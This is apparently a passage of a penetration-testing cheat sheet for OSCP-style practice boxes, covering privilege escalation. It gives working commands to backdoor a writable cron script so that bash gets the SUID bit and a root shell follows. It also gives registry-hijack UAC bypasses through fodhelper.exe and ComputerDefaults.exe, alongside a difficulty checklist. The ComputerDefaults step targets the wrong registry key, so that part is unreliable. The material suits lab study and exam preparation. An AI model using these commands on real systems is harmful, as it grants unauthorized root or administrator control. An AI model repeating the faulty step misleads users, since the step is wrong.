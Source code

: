 #### Pattern 3: Cron Job with Writable Script (Linux)
```bash
# Common in TJ Null boxes:
# 1. Find writable cron scripts
cat /etc/crontab
ls -la /etc/cron.hourly/

# 2. Modify script to add backdoor
echo 'chmod +s /bin/bash' >> /path/to/writable/script.sh

# 3. Wait for execution
watch -n 1 ls -la /bin/bash
# When SUID bit is set:
/bin/bash -p
```

### TJ Null Difficulty Progression

#### Easy Box PrivEsc:
- [ ] Obvious sudo -l misconfiguration
- [ ] Clear SUID binary with known exploit
- [ ] Simple service misconfiguration
- [ ] Kernel exploit with public PoC
- [ ] Plaintext credentials in files

#### Medium Box PrivEsc:
- [ ] Requires enumeration to find vector
- [ ] Chain of smaller misconfigurations
- [ ] Custom binary analysis needed
- [ ] Cron job with PATH manipulation
- [ ] Registry hunting for credentials

#### Hard Box PrivEsc:
- [ ] Obscure privilege escalation vector
- [ ] Binary exploitation or reversing
- [ ] Complex service interaction
- [ ] Custom exploit development
- [ ] Multiple enumeration methods required

## Advanced Techniques

### Windows Advanced

#### UAC Bypass Techniques
```cmd
# Check UAC level
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin

# FodHelper UAC bypass (Windows 10)
reg add "HKCU\SOFTWARE\Classes\ms-settings\Shell\Open\command" /v DelegateExecute /t REG_SZ
reg add "HKCU\SOFTWARE\Classes\ms-settings\Shell\Open\command" /ve /d "C:\path\to\payload.exe" /t REG_SZ
fodhelper.exe

# ComputerDefaults UAC bypass
reg add "HKCU\SOFTWARE\Classes\exefile\shell\open\command" /ve /d "C:\path\to\payload.exe" /t REG_SZ
reg add "HKCU\SOFTWARE\Classes\exefile\shell\open\command" /v DelegateExecute /t REG_SZ
ComputerDefaults.exe
```
